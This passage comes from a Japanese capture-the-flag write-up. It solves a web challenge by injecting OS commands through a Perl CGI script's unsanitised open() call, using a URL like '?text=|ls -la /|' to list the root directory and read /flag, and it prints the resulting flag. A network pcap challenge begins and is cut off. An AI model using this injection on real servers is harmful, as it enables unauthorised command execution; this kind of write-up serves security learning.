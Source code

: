 `/cgi-bin/viewer.pl?text=about` にアクセスすると `My name is Bob.` と表示されました。`/cgi-bin/about` にアクセスすると `Internal Server Error` が出たことから、GET パラメータとして与えられたファイルをそのまま読んでいるものと推測できます。

Perl で好きなファイルを読み込める状況といえば、[`open('ls|')` のように `|` で終わる文字列を `open` に投げると OS コマンドが実行できる](https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html)仕様です。試しに `/cgi-bin/viewer.pl?text=|ls%20-la%20/|` にアクセスしてみると、以下のように `ls -la /` を実行することができました。

```
total 92
drwxr-xr-x 1 root root 4096 Jan 3 15:21 .
drwxr-xr-x 1 root root 4096 Jan 3 15:21 ..
-rwxr-xr-x 1 root root 0 Jan 3 15:21 .dockerenv
drwxr-xr-x 1 root root 4096 Dec 28 12:41 bin
drwxr-xr-x 2 root root 4096 Apr 12 2016 boot
drwxr-xr-x 5 root root 360 Jan 3 15:21 dev
drwxr-xr-x 1 root root 4096 Jan 3 15:21 etc
-rw-rw-rw- 1 root root 8296 Dec 28 14:42 flag
drwxr-xr-x 2 root root 4096 Apr 12 2016 home
drwxr-xr-x 1 root root 4096 Dec 28 12:41 lib
drwxr-xr-x 2 root root 4096 Dec 12 01:51 lib64
drwxr-xr-x 2 root root 4096 Dec 12 01:51 media
drwxr-xr-x 2 root root 4096 Dec 12 01:51 mnt
drwxr-xr-x 2 root root 4096 Dec 12 01:51 opt
dr-xr-xr-x 18523 root root 0 Jan 3 15:21 proc
drwx------ 2 root root 4096 Dec 12 01:51 root
drwxr-xr-x 1 root root 4096 Dec 28 12:42 run
drwxr-xr-x 1 root root 4096 Dec 28 12:41 sbin
drwxr-xr-x 2 root root 4096 Dec 12 01:51 srv
dr-xr-xr-x 13 root root 0 Jan 3 06:22 sys
drwxrwxrwt 1 root root 4096 Jan 3 15:21 tmp
drwxr-xr-x 1 root root 4096 Dec 12 01:51 usr
drwxr-xr-x 1 root root 4096 Dec 28 12:41 var
```

`/flag` を読めばよさそうです。`cat /flag` してみましょう。

```
ELF…ctrctf{Th1s_1s_01d_cg1_exp101t}…
```

ELF ファイルが出てきましたがフラグを得られたので問題ありません。

```
ctrctf{Th1s_1s_01d_cg1_exp101t}
```

## [Network 100] debug_port (44 solves)
> A suspicious script has been executed. https://www.dropbox.com/s/zw76f3qm2k0x3g1/network_debug_port.pcapng?dl=0
> 
> author narupi

与えられた URL にアクセスすると `network_debug_port.pcapng` という pcapng ファイルがダウンロードできました。

Wireshark でパケットを眺めていると、`192.168.56.103:5555` と `192.168.56.1:34688` の間で以下のような通信をしている様子が確認できました。
